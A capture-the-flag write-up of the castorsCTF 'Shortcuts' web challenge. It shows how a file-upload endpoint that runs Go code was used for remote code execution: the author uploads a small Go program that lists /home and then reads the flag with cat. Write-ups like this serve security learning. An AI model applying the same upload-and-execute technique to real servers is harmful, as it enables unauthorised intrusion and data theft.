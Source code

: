 # Shortcuts - Writeup
### Description
```
A web app for those who are too lazy to SSH in.

http://web1.cybercastors.com:14437
```

## Cracking
- #### Us going to website, we just see a webpage with some ASCII art.
![castorsCTF](https://i.imgur.com/9I9xuTO.png)
- #### Looking at the source reveals that there is one endpoint in the website called `/list`
![castorsCTF](https://i.imgur.com/e7WHUEv.png)
- #### Going to the endpoint we see that we can upload some files so this should be RCE (Remote Code Execution)
![castorsCTF](https://i.imgur.com/YqB8UZo.png)
- #### My friends and I got to know by going to some files on this endpoint that this is related to Golang and we *probably* have Remote Code Execution. So I just wrote a little code in go which would let us execute system commands.

#### grep.go
```go
package main

import (
    "fmt"
    "os/exec"
)

func main() {
    out, _ := exec.Command("ls",  "/home").Output()
    fmt.Println(string(out))
}
```

[This checks the users on this system]

- #### Running this gives us

![castorsCTF](https://i.imgur.com/lPKGowP.png)
 - #### Now `lsing` into the home gives us some saucy stuff.
 ![castorsCTF](https://i.imgur.com/HkDUhxf.png)
 - #### Now we just use the `cat` command to get the flag.
 ![castorsCTF](https://i.imgur.com/Gigdrpn.png)
